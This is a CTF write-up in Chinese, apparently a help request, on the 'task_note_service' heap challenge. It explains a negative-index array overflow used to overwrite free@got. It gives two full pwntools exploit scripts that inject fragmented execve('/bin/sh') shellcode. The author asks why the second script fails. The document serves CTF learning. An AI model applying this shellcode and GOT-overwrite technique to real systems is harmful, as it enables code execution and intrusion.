


## 全国大学信息安全竞赛----task_note_service
序言
程序运行
程序分析
漏洞分析
思路
疑问
### 序言
> 比赛中这道差那么一点点就做出来了

### 程序运行

**1.menu**
```
---------menu---------
1. add note
2. show note
3. edit note
4. del note
5. exit
your choice>>
```
**2. add**
```
1. add note
2. show note
3. edit note
4. del note
5. exit
your choice>> 1
index:0
size:100
```
**3. delete**
```
---------menu---------
1. add note
2. show note
3. edit note
4. del note
5. exit
your choice>> 4
index:0
```
### 3. 程序分析
> 幸得`gd`老哥提醒, 发现这个是一个数组越界的漏洞. `add`的时候, 程序不会检查`index`的正负, 这就造成数组向前越界的可能性.实际上也是这么利用的.

**思路**: 通过数组越界修改 `free@got`的值为堆的地址. 堆中有我们构造好的`shellcode`, 程序就会去执行`shellcode`. 比较坑的是, 每次我们只能输入`8 byte`的内容. 下面是两种实现方案:

### 4. 实现方案
**方案一:**
> 通过先执行`read`系统调用, 然后读取`x64`版本的`shellcode`, 执行流跳转至该`shellcode`, 由于本帖是求助的, exp就不展开讲了, 可以直接使用(`Ubuntu 16.04.4 lts`)
```python

#!/usr/bin/env python

'''
by gd大佬
'''

from pwn import *
context.log_level = "debug"

elf = "./task_note_service2"
ENV = {"LD_PRELOAD":"./libc.so.6"}

p = process(elf)
#p = remote("49.4.23.66", 31430)

def add(idx, s):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("index:")
    p.sendline(str(idx))
    p.recvuntil("size:")
    p.sendline("8")
    p.recvuntil("content:")
    p.send(s)

def delete(idx):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("index:")
    p.sendline(str(idx))

add(-0x11, "\x58\x58\x58\x58\x00\x00\x00")
'''
pop rax
pop rax
pop rax
pop rax
add BYTE PTR [rax], al
'''
add(0x11, "\x48\x89\xfe\x48\xc7\xc7\x00")
'''
mov rsi, rdi
mov rdi, 0x0
'''
add(0x11, "\xB8\x00\x00\x00\x00\x0F\x05")
'''
mov eax, 0
syscall
'''

gdb.attach(p)
delete(0x11)

payload = p8(0)*0x7
payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
payload += "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
'''
xor esi, esi
movabs rbx,0x68732f2f6e69622f
push rsi
push rbx
push rsp
push rdi
push 0x3b
pop rax
xor edx, edx
syscall
'''

p.sendline(payload)
p.interactive()
```
**方案二**
>　思路: 就是利用跳转, 由于只能输入`8 byte`造成`shellcode`不能连续, 我就想到了跳转, 每段`shellcode`结束时, 跳转到下一段`shellcode`, 跳转位置我们可以通过相对地址来确定. 废了老大的劲儿, 才将`shellcode`调成每一行最多`5 byte`
```python
from pwn import *

p = process("./task_note_service2")
#p = remote("117.78.43.127",32059)
context.log_level = 'debug'

def add(index, size, content):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("index:")
    p.sendline(str(index))
    p.recvuntil("size:")
    p.sendline(str(size))
    p.recvuntil("content:")

    p.sendline(content)

def delete(index):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("index:")
    p.sendline(str(index))

def exit():
    p.recvuntil("your choice>> ")
    p.sendline("5")

offset = 17
add(-17, 8, "\x48\x31\xc0\x50\xeb\x1a") # xor rax, rax push rax
add(0, 8, "\x48\x31\xf6\x53\xeb\x1a") #xor rsi, rsi push rbx
gdb.attach(p)
add(1, 8, "\xbb\x2f\x62\x69\x6e\xeb\x19") #mov rbx, 0x6e69622f
add(2, 8, "\x48\x89\x1c\x24\xeb\x1a") #mov [rsp], rbx
add(3, 8, "\xbb\x2f\x2f\x73\x68\xeb\x19") #mov rbx, 0x68732f2f
add(4, 8, "\x48\x89\x5c\x24\x04\xeb\x19") #mov [rsp+4], rbx
add(5, 8, "\x54\x5f\x5b\x5e\xeb\x1a") #push rsp pop rdi pop rbx pop rsi
add(6, 8, "\xb0\x3b\x0f\x05")     #
delete(2)
#log.info("execve shellcode")
p.interactive()
```

### 问题(重点)
**问题描述**
> 我这个`exp`最后也是能执行`syscall`, 但是显示无参数. 不能`getshell`.
问: 为什么不能`getshell`, 对应的寄存器中参数都正确?

有图为证.

**有问题的EXP的结果图**

**无问题的EXP的结果图**


### 多说一句
> 还望有能力的大佬, 解答一下我的疑惑, 万分感谢.
